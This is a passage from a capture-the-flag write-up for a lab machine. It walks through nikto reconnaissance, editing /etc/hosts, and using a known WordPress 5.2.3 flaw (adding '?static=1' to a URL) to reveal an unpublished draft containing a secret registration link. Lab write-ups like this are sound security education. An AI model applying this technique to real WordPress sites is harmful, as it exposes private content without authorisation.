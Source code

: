 ### nikto results

Nikto revealed an interesting result:

`+ Uncommon header 'x-backend-server' found, with contents: office.paper`

We see that there is a backend server domain.

Note: the domain is not `office.paper.htb`

We need to add `office.paper` to our `/etc/hosts` file like so:

```
# etc hosts file

10.10.10.112   paper.htb office.paper
```

---

### enumerating office.paper

Wappalyzer tells us it is running `Wordpress 5.2.3`

---

### searchsploit

`searchsploit wordpress 5.2.3`

We look at this exploit:
```
xploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /usr/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text
```

It states that adding `?static=1` to the end of the URL for vulnerable wp pages should leak secret content. We try this on `http://office.paper/index.php?static=1`

This reveals the following info:
```
# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

we add `chat.office.paper` to our `/etc/hosts` file and visit the page.


---
